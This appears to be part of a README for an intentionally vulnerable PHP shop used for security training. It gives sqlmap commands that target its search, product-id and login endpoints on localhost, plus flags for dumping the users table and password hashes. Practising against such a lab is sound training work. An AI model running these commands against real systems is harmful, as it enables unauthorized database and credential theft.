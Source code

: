 💡 **Tip:** Tools like **Burp Suite**, **sqlmap**, **Postman**, and browser dev tools (Storage tab, Console) are perfect for testing this site’s intentional flaws.

---


## 📁 Sample SQLMap Usage

Below are some example SQLMap commands to test the most vulnerable endpoints in the PC Parts Store project. These simulate automated exploitation of SQL injection flaws built intentionally into the application.

> ⚠️ These are **for educational/red team use only**. Make sure you're authorized to test the application before running any automated tools.

### 🔍 1. **Search Filter Injection (products.php)**


`sqlmap -u "http://localhost/pc-parts-store/products.php?search=test" --batch --risk=3 --level=5`

- **Why?** Tests the `search` parameter for injection.
    
- **Result:** Can enumerate tables, extract data, or dump the full database if successful.
    

---

### 🔎 2. **Product ID Injection (product.php)**


`sqlmap -u "http://localhost/pc-parts-store/product.php?id=1" --dbs --batch`

- **Why?** The `id` parameter is directly passed to the SQL query.
    
- **Result:** Lists databases and confirms injection in the product detail page.
    

---

### 🔐 3. **Login Form Injection (login.php)**


`sqlmap -u "http://localhost/pc-parts-store/login.php" --data="user=admin&pass=admin123" --batch`

- **Why?** Simulates SQL injection via POST data.
    
- **Result:** Confirms injectable login credentials check, useful for blind or boolean-based attacks.
    

---

🛠️ **Advanced Usage:**

- Dump table contents:
    
    `--dump -T users -D pc_part_store`
    
- Enumerate user credentials or hashes (if implemented):
    
    `--passwords`
    